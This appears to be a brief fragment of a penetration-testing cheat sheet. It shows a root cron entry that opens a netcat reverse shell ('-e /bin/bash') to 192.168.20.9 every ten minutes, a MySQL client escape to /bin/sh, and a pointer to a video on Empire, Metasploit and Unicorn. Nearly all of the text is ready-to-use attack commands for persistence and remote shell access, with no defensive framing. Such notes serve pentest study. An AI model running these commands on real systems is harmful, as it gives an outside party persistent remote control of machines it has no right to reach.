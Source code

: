 ## Cron

```
*/10 * * * * root nc 192.168.20.9 12345 -e /bin/bash
```

## Empire Metasploit Unicorn interactions

Check IppSec's Blue video

## MySQL to shell

`mysql> \! /bin/sh`
